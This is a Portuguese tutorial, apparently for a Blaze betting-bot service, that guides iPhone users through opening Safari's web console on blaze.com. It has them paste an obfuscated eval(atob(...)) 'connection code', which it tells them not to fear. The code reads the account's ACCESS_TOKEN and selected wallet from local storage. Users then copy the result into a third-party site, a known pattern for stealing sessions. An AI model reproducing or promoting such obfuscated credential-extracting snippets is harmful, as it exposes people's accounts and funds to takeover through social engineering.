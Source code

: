 # 1. Como conectar via iOS

## Esse tutorial funciona em todos os celulares da marca Apple.

Iremos precisar inicialmente de 2 aplicativos:

- Safari
- Web Inspector

### Primeiramente, iremos configurar o app _Web Inspector._

- 1: Entre no aplicativo e clique em "Go to Settings" como mostra na imagem:

![Clicando em "Go to Settings"](https://sharkblazeauto.com.br/imgs/1.png)

- 2: Clicando em Go to Settings você irá para as configurações do celular, desça até encontrar pelo Safari, como mostra na imagem:

![Clicando em "Safari"](https://sharkblazeauto.com.br/imgs/2.png)

- 3: Agora procure por "Extensões" e dê um clique, como mostra na imagem:

![Clicando em "Extensões"](https://sharkblazeauto.com.br/imgs/3.png)

- 4: Em "Web Inspector" estará desativado, dê um clique para iniciarmos o passo-a-passo de ativação, como mostra na imagem:

![Clicando em "Web Inspector"](https://sharkblazeauto.com.br/imgs/4.png)

- 5: Basta deixar a aba do Web Inspector como mostra na seguinte imagem:

![Clicando em "Web Inspector"](https://sharkblazeauto.com.br/imgs/5.png)

### E em segundo e último lugar, vamos conectar o robô na Blaze!

Agora iremos precisar do código de conexão, que é o seguinte:

> eval(atob('KCgpPT57bGV0IGE9YT0+bG9jYWxTdG9yYWdlLmdldEl0ZW0oYSk7cmV0dXJuYCR7YSgiQUNDRVNTX1RPS0VOIil9OyR7YSgic2VsZWN0ZWRfd2FsbGV0X3YyIil9YH0pKCk='))

Não se assuste com este código, apenas copie e siga o tutorial passo a passo, não tem nada de difícil. Vamos lá.

- 1: Entre no site da [Blaze](https://blaze.com/) e procure por esse ícone semelhante a uma peça de quebra cabeça e clique nele;

![Clicando no ícone parecido com um quebra cabeça"](https://sharkblazeauto.com.br/imgs/2-1.png)

- 2: Após isso, irá abrir esse pequeno menu, clique em "Web Inspector"

![Clicando em "Web Inspector"](https://sharkblazeauto.com.br/imgs/2-2.png)

- 3: Agora, clique em "Console";

![Clicando em "Console"](https://sharkblazeauto.com.br/imgs/2-3.png)

- 4: No console, terá essa setinha > e um espaço vazio ao lado, clique neste espaço vazio;

![Clicando no espaço vazio"](https://sharkblazeauto.com.br/imgs/2-4.png)

- 5: Irá abrir uma caixa como essa abaixo, nesta caixa você irá colar o código que disponibilizei neste tutorial, caso não se recorde, este código:
  > eval(atob('KCgpPT57bGV0IGE9YT0+bG9jYWxTdG9yYWdlLmdldEl0ZW0oYSk7cmV0dXJuYCR7YSgiQUNDRVNTX1RPS0VOIil9OyR7YSgic2VsZWN0ZWRfd2FsbGV0X3YyIil9YH0pKCk='))

Copie - o totalmente e cole na caixa.

![Colando o código na caixa"](https://sharkblazeauto.com.br/imgs/2-5.png)

- 6: Após colar o código, clique em "Execute", como mostra na imagem:

![Clicando em "Execute"](https://sharkblazeauto.com.br/imgs/2-6.png)

- 7: Irá surgir um código, logo abaixo, seguido de uma setinha ao contrário "<" copie todo o código que estiver após essa setinha. Cuidado! Não compartilhe este código com ninguém.

![Mostrando o código"](https://sharkblazeauto.com.br/imgs/2-7.png)

- 8: Copie o código como mostra na imagem a seguir (somente após a setinha <):

![Copiando o código"](https://sharkblazeauto.com.br/imgs/2-8.png)

- 9: Após copiar o código, vá até o [site do robô automático](https://auto.sharkblaze.com.br/) entre na sua conta, e no painel de início clique em "Conectar";

![Clicando em "Conectar"](https://sharkblazeauto.com.br/imgs/2-9.png)

- 10: Após clicar em conectar, irá abrir uma caixinha, cole o código que você copiou anteriormente, nessa caixinha, como mostra na imagem e clique em "Conectar":

![Colando o código e clicando em "Conectar"](https://sharkblazeauto.com.br/imgs/2-10.png)

- 11: Pronto! Sua conta da Blaze já está conectada em nossa plataforma.

![Conectado"](https://sharkblazeauto.com.br/imgs/2-11.png)
